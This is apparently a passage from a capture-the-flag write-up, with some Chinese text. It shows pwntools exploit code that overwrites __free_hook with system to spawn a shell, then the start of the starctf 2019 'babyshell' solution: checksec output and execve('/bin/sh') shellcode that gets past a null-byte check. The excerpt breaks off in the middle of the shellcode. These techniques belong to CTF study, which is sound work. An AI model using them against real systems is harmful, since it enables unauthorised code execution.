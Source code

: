 ```python
    add(0x60, f"{i}", f"{i}")

call(1)
for i in range(2, 8):
    call(i)

call(8)
call(9)
call(8)

for i in range(10, 17): # 10 - 16
    add(0x60, f"{i}", f"{i}")

add(0x60, p64(__free_hook), 'C') # 17
add(0x60, 'D', 'D') # 18
add(0x60, '/bin/sh\x00', 'E') # 19
add(0x60, p64(_system), 'F')
call(19)

r.interactive()
```



### baby shell

```
// file
starctf_2019_babyshell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1823c3a487a33936129f5630bc72aae96a129ca8, stripped

// checksec
[*] '/home/u1f383/tmp/pwn/babyshell/starctf_2019_babyshell'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

第一個 shellcode 需要為 null，而使用 `add XXX` instruction 就可以繞過，exploit:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = process('./babyshell')
gdb.attach(r, """
b *0x4008cb
""")

ptr = 0x601060
# add byte ptr [rax+0x601060], ah
sc = b'\x00\xa0`\x10`\x00'
sc += asm("""
mov rax, 0x68732f6e69622f
push rax
mov rax, 0x3b
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
```